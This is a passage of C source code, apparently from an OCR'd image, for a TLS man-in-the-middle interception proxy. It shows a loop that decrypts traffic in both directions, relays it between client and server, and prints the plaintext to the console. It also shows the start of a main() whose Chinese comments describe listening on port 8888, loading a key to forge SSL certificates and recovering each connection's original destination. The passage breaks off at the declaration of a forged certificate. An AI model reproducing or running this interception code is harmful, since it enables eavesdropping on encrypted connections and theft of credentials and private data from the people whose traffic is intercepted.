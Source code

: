 ```
                : socket_to_server + 1;
    
        ret = select(max, &fd_read, NULL, NULL, &timeout);
        if (ret < 0) {
            SSL_Warning("Fail to select!");
            break;
        } else if (ret == 0) {
            continue;
        }
        if (FD_ISSET(socket_to_client, &fd_read)) {
            memset(buffer, 0, sizeof(buffer));
            ret = SSL_read(ssl_to_client, buffer, sizeof(buffer));
            if (ret > 0) {
                if (ret != SSL_write(ssl_to_server, buffer, ret)) {
                    SSL_Warning("Fail to write to server!");
                    break;
                } else {
                    printf("%d, client send %d bytes to server\n", sum, ret);
                    printf("%s\n", buffer);
                }
            } else {
                SSL_Warning("Fail to read from client!");
                break;
            }
        }
        if (FD_ISSET(socket_to_server, &fd_read)) {
            memset(buffer, 0, sizeof(buffer));
            ret = SSL_read(ssl_to_server, buffer, sizeof(buffer));
            if (ret > 0) {
                if (ret != SSL_write(ssl_to_client, buffer, ret)) {
                    SSL_Warning("Fail to write to client!");
                    break;
                } else {
                    printf("%d, server send %d bytes to client\n", sum, ret);
                    printf("%s\n", buffer);
                }
            } else {
                SSL_Warning("Fail to read from server!");
                break;
            }
        }
    }
    return -1;
}

int main() {
    // 初始化一个socket，将该socket绑定到8888端口，并监听
    int socket = socket_to_client_init(8888);
    // 从文件读取伪造SSL证书时需要的RAS私钥和公钥
    EVP_PKEY* key = create_key();
    // 初始化openssl库
    SSL_init();

    while (1) {
        struct sockaddr_in original_server_addr;
        // 从监听的端口获得一个客户端的连接，并将该连接的原始目的地址存储到original_server_addr中
        int socket_to_client = get_socket_to_client(socket, &original_server_addr);
        if (socket_to_client < 0)
            continue;
    
        // 新建一个子进程处理后续事宜，主进程继续监听端口等待后续连接
        if (!fork()) {
            X509 *fake_x509;
```